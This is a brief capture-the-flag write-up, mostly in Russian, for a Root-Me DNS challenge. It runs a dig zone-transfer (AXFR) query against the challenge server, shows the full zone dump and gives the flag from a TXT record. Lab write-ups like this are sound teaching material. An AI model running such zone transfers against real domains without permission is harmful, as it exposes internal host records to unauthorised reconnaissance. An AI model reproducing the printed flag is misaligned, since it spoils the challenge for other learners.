


## Задание
A not really dutiful administrator has set up a DNS service for the "ch11.challenge01.root-me.org" domain...
And give host, protocol and port
## Решение
Воспользуемся утилитой `dig` - утилита, предоставляющая пользователю интерфейс командной строки для обращения к системе DNS. 

Более подробно про dns zone transfert - [link](https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/)

`dig axfr ch11.challenge01.root-me.org @challenge01.root-me.org -p 54011`

<details>

```
; <<>> DiG 9.11.16-2-Debian <<>> axfr ch11.challenge01.root-me.org @challenge01.root-me.org -p 54011
;; global options: +cmd
ch11.challenge01.root-me.org. 604800 IN SOA     ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
ch11.challenge01.root-me.org. 604800 IN TXT     "DNS transfer secret key : CBkFRwfNMMtRjHY"
ch11.challenge01.root-me.org. 604800 IN NS      ch11.challenge01.root-me.org.
ch11.challenge01.root-me.org. 604800 IN A       127.0.0.1
challenge01.ch11.challenge01.root-me.org. 604800 IN A 192.168.27.101
ch11.challenge01.root-me.org. 604800 IN SOA     ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
;; Query time: 72 msec
;; SERVER: 212.129.38.224#54011(212.129.38.224)
;; WHEN: Sun Apr 05 09:55:02 EDT 2020
;; XFR size: 6 records (messages 1, bytes 246)
```

</details>




***Flag*** - `CBkFRwfNMMtRjHY`